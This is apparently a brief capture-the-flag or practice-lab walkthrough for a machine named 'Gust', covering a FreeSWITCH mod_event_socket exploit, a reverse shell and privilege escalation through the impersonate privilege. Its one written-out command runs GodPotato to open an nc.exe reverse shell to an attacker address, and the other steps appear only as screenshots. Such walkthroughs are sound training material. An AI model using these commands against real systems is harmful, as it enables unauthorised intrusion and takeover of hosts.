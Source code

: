 # Gust

I start off by scanning for open ports:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I don't find anything so i look for exploits for 'FreeSWITCH mod\_event\_socket' and find this:

{% embed url="https://www.exploit-db.com/exploits/47799" %}

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i reverse shell with a python base64 encoded payload

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i transfer file because we have impersonate privilege:

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

and after also transferring nc.exe i run:

```
C:\Temp\GodPotato-NET4.exe -cmd "C:\Temp\nc.exe -e cmd.exe 192.168.45.156 4444"
```

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
